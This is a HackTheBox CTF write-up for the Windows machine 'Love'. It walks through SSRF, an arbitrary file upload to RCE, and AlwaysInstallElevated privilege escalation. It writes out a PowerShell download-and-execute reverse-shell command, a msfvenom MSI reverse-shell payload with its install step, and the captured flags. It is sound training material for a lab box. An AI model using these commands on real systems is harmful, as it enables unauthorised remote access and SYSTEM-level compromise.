










---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - AlwaysInstallElevated
  - SSRF
  - Windows
  - arbitrary-file-upload
  - insecure-credentials
---
# Resolution summary

>[!summary]
Love is a Easy difficulty Windows machine that hosts two web servers. One of them replies with a Forbidden error, however disclosing an internal staging sub-domain, while the other one is vulnerable to **SSRF** and allows to enumerate the first. Exploitation of the SSRF permit to obtain valid **credentials** in order to access a restricted area vulnerable to **Arbitrary File Upload** and thus to Remote Code Execution. Once obtained a reverse shell the local enumeration of the target reveals that both the machine and the compromised user has the **AlwaysInstallElevated** attribute enabled, allowing to install a malicious .msi binary in order to elevate privileges to SYSTEM.

## Improved skills

- Exploiting SSRF to enumerate restricted area
- Exploiting Arbitrary File Upload to achieve RCE
- AlwaysInstallElevated privilege escalation

## Used tools

- nmap
- gobuster
- nishang
- msfvenom
- impacket-smbserver

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Love]
└─$ sudo nmap -p- 10.129.128.110 -sS -Pn -oN scans/all-tcp-ports.txt -v 
...
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5000/tcp  open  upnp
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Love]
└─$ sudo nmap -sV -sT -sC -p 80,135,139,443,445,3306,5000,5040,5985,5986,47001,49664,49665,49666,49667,49668,49669,49670 -oN scans/open-tcp-ports.txt 10.129.128.110 -Pn
...
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings:
|   NULL:
|_    Host '10.10.14.105' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-05-05T14:20:03+00:00; +21m33s from scanner time.
| tls-alpn:
|_  http/1.1
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
...

Host script results:
|_clock-skew: mean: 2h06m34s, deviation: 3h30m03s, median: 21m32s
| smb-os-discovery:
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-05T07:19:55-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-05-05T14:19:50
|_  start_date: N/A
```

# Enumeration

Nmap discovered a lot of open ports, as usual for windows machines. The most significant and interesting, however, are the **ports 80, 443 and 5000**, each of one **runs an Apache web server** (certificate on port 443 also **disclosed an internal domain**). Port 445, which is SMB, does not provide useful information other then the machine OS version, as well as MYSQL which does not accept connection outside from localhost. Ports 5986 and 47001 suggest the presence of WinRM, with which however it is not possible to do anything without having valid credentials first.

## Port 80 - HTTP


Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Love]
└─$ gobuster dir -u http://10.129.128.110 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -f -r -o scans/p80-enum-dirs.txt -c 'PHPSESSID=vighiqrf6o6vn65g1qss1sr9qf'
/admin/               (Status: 200) [Size: 6198]		# Admin panel login
/includes/            (Status: 200) [Size: 2263]		# directory listing
/cgi-bin/             (Status: 403) [Size: 304] 
/images/              (Status: 200) [Size: 1650]
/plugins/             (Status: 200) [Size: 2492]		# directory listing
/webalizer/           (Status: 403) [Size: 304] 
/phpmyadmin/          (Status: 403) [Size: 304] 
/icons/               (Status: 200) [Size: 74798]
/examples/            (Status: 503) [Size: 404]  
/dist/                (Status: 200) [Size: 1391] 		# directory listing
/tcpdf/               (Status: 200) [Size: 2712] 		# directory listing
/licenses/            (Status: 403) [Size: 423]  
/server-status/       (Status: 403) [Size: 423]  
/con/                 (Status: 403) [Size: 304]  
/aux/                 (Status: 403) [Size: 304]
/prn/                 (Status: 403) [Size: 304]  
/server-info/         (Status: 403) [Size: 423]
```

Enumerated staging web site disclosed from the certificate on port 443:



Enumerated web files and directories:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Love]
└─$ gobuster dir -u http://staging.love.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o scans/p80stag-enum-files.txt -k -b 403,404
...
/index.php            (Status: 200) [Size: 5357]
/style.css            (Status: 200) [Size: 204030]
/.                    (Status: 200) [Size: 5357]  
/beta.php             (Status: 200) [Size: 4997]  
/all.css              (Status: 200) [Size: 1917]
```

Enumerated **/beta.php** and discovered a **Server Side Request Forgery** vulnerability:



## Port 443 & Port 5000 - HTTP





# Exploitation

## Server Side Request Forgery

**beta.php** is vulnerable to **SSRF** and allows to enumerate internal files. Abusing this issue it is possible to reach the web server on port 5000 whose access was previously forbidden.



The web application running on port 5000 disclosed some credentials that can be used to access the admin 'Voting System' panel on port 80:



## Arbitrary File Upload

The **web application then did not validate uploaded file**, allowing to upload a malicious file and obtain remote code execution:







At this point it was possible to host a powershell reverse shell from nishang:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ cp /opt/post-expl/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1
                                                                                                                  
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.105 -Port 10099' >> revshell.ps1
                                                                                                                  
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

To download and execute the reverse shell:

```powershell
http://10.129.128.110/images/ws.php?cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.105/revshell.ps1')"
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.105] from (UNKNOWN) [10.129.128.110] 64516
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\omrs\images>whoami
love\phoebe
```

# Privilege Escalation

## Local enumeration

Local enumeration reveals that the **AlwaysInstallElevated** flag was enabled both for the current user and the local machine, permitting to install malicious **.msi** with SYSTEM privileges:

```powershell
C:\temp>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\temp>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\temp>reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

## AlwaysInstallElevated Privilege Escalation

Generated the malicious installer:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.105 LPORT=10099 -f msi -o privesc.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: privesc.msi

┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ sudo impacket-smbserver kali . -smb2support                                          
[sudo] password for kali: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
...
```

Downloaded and installed the malicious file:

```powershell
C:\temp>copy \\10.10.14.105\kali\privesc.msi privesc.msi
copy \\10.10.14.105\kali\privesc.msi privesc.msi
        1 file(s) copied.
		
C:\temp>msiexec /quiet /qn /i privesc.msi
msiexec /quiet /qn /i privesc.msi
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ nc -nlvp 10099                                                                            
listening on [any] 10099 ...
connect to [10.10.14.105] from (UNKNOWN) [10.129.128.110] 64526
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
Love
909c70fd07a01517cefe7fc5d9e1bd6d

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Love
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : .htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-83-FA
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.129.128.110(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Wednesday, May 5, 2021 5:41:36 AM
   Lease Expires . . . . . . . . . . : Wednesday, May 5, 2021 12:21:52 PM
   Default Gateway . . . . . . . . . : 10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.129.0.1
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
```



# Trophy

>[!quote]
>You could claim that anything's real if the only basis for believing in it is that nobody's proved it doesn't exist!
>
>\- J.K. Rowling

>[!success]
>**User.txt**
>e38cb64766c30778118e432329d739f1

>[!success]
>**Root.txt**
>909c70fd07a01517cefe7fc5d9e1bd6d

